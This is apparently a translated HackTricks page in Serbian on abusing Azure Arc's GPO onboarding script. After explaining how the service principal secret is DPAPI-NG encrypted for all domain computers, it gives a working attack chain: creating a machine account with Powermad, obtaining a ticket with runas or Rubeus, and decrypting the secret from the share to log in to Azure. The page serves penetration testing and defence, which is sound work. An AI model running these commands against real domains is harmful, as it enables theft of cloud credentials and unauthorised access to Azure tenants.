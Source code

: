 # Az - Arc ranjivi GPO Deploy Script

{{#include ../../../banners/hacktricks-training.md}}

### Identifikacija problema

Azure Arc omogućava integraciju novih internih servera (servera pridruženih domenu) u Azure Arc koristeći metodu Group Policy Object. Da bi to olakšao, Microsoft pruža alat za implementaciju potreban za pokretanje procedure onboardinga. Unutar ArcEnableServerGroupPolicy.zip datoteke nalaze se sledeći skripti: DeployGPO.ps1, EnableAzureArc.ps1, i AzureArcDeployment.psm1.

Kada se izvrši, DeployGPO.ps1 skripta obavlja sledeće radnje:

1. Kreira Azure Arc Servers Onboarding GPO unutar lokalnog domena.
2. Kopira EnableAzureArc.ps1 skriptu za onboarding na određeni mrežni deo kreiran za proces onboardinga, koji takođe sadrži Windows instalacioni paket.

Kada se pokreće ova skripta, sys administratori treba da obezbede dva glavna parametra: **ServicePrincipalId** i **ServicePrincipalClientSecret**. Pored toga, potrebni su i drugi parametri kao što su domen, FQDN servera koji hostuje share, i naziv share-a. Dodatne informacije kao što su tenant ID, resource group, i druge neophodne informacije takođe moraju biti obezbeđene skripti.

Enkriptovana tajna se generiše u AzureArcDeploy direktorijumu na određenom share-u koristeći DPAPI-NG enkripciju. Enkriptovana tajna se čuva u datoteci pod nazivom encryptedServicePrincipalSecret. Dokazi o ovome mogu se naći u DeployGPO.ps1 skripti, gde se enkripcija vrši pozivanjem ProtectBase64 sa $descriptor i $ServicePrincipalSecret kao ulazima. Deskriptor se sastoji od SID-ova grupe Domain Computer i Domain Controller, osiguravajući da se ServicePrincipalSecret može dekriptovati samo od strane grupe sigurnosti Domain Controllers i Domain Computers, kako je navedeno u komentarima skripte.
```bash
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Imamo sledeće uslove:

1. Uspešno smo penetrirali unutrašnju mrežu.
2. Imamo mogućnost da kreiramo ili preuzmemo kontrolu nad računom računara unutar Active Directory.
3. Otkrili smo mrežno deljenje koje sadrži AzureArcDeploy direktorijum.

Postoji nekoliko metoda za dobijanje računa računara unutar AD okruženja. Jedna od najčešćih je iskorišćavanje kvote računa računara. Druga metoda uključuje kompromitovanje računa računara kroz ranjive ACL-ove ili razne druge pogrešne konfiguracije.
```bash
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Kada se dobije nalog mašine, moguće je autentifikovati se koristeći ovaj nalog. Možemo ili koristiti runas.exe komandu sa netonly flagom ili koristiti pass-the-ticket sa Rubeus.exe.
```bash
runas /user:fake01$ /netonly powershell
```

```bash
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Čuvajući TGT za naš korisnički nalog u memoriji, možemo koristiti sledeći skript za dešifrovanje tajne servisnog principala.
```bash
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativno, možemo koristiti [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

U ovom trenutku, možemo prikupiti preostale informacije potrebne za povezivanje sa Azure-om iz ArcInfo.json datoteke, koja se čuva na istom mrežnom deljenju kao i encryptedServicePrincipalSecret datoteka. Ova datoteka sadrži detalje kao što su: TenantId, servicePrincipalClientId, ResourceGroup i još mnogo toga. Sa ovim informacijama, možemo koristiti Azure CLI za autentifikaciju kao kompromitovani servisni principal.

## References

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
